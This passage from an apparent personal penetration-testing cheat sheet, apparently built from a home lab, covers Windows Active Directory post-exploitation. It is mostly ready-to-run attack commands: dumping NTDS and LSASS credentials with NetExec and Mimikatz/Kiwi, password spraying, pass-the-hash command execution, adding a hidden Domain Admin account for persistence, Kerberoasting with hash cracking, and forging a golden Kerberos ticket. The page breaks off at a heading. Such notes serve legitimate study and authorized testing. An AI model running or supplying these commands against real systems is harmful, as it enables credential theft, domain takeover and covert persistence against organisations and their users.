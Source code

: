 ```
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
```
[1](https://www.netexec.wiki/smb-protocol/obtaining-credentials)
#### Credential Dumping w/ Meterpreter Kiwi (Mimikatz)
> This girl is known by every AV, but if you can freely run it...

**Steps**:
1. Set privileges: `privilege::debug`
	1. Expected: `Privilege '20' OK`
	2. (Optional) Check command list: `sekurlsa`
2. Dump credentials: `sekurlsa::logonPasswords`
##### via Meterpreter
**Steps to execute within a meterpreter shell**:
1. Load Mimikatz: `load kiwi`
2. Set privileges: `kiwi_cmd privilege::debug`
3. Dump credentials: `kiwi_cmd sekurlsa::logonPasswords`
>>> If error: `ERROR kuhl_m_sekurlsa_acquireLSA ; mimikatz x86 cannot access x64 process`, you may wish to find a way to run Mimikatz.exe
## Pass the Password/Hash
### NetExec
**Password spraying:** `crackmapexec smb 10.0.2.0/24 -u mmeow -d LIFELINE.local -p Password1`
> Check for local admin access of a given account

**List Local Administrators:** `nxc smb 10.0.2.9 -u 'daethyra' -H 'hash' --local-auth -x 'net localgroup administrators'`
# Persistence
### Shadow user
>Requires having Administrator/SYSTEM access

1. `net user /add <username> <password> /domain`
2. `net group "Domain Admins" <username> /ADD /DOMAIN`
### Golden Tickets
You may wish to simply review [[Golden Diamond and Sapphire Attacks]] for technological details.
#### Dump Service Principal Names 
> Fetch Service Principal Names that are associated with normal user accounts, NOT machines. User generated SPNs are based on user-created  passwords, which means they're weaker, which means they can actually be cracked.

`sudo GetUserSPNs.py LIFELINE.local/mmeow:Password1 -dc-ip 10.0.2.7 -request`
- In my lab, this dumped out a kerberoast ticket for the SQLService account which I then cracked via Hashcat(`hashcat -m 13100 kbr.txt /usr/share/wordlists/rockyou.txt`)
#### Create Golden Kerberos Ticket via Meterpreter
> The following workflow requires a Meterpreter session to be followed exactly as written

**Steps**:
1. `load kiwi`
2. `golden_ticket_create -d LIFELINE.local -k 43460d636f269c709b20049cee36ae7a -s S-1-5-21-1304479805-1949792208-3801273171 -u daethyra -t goldenkrb.ticket`
#### Find Domain SID
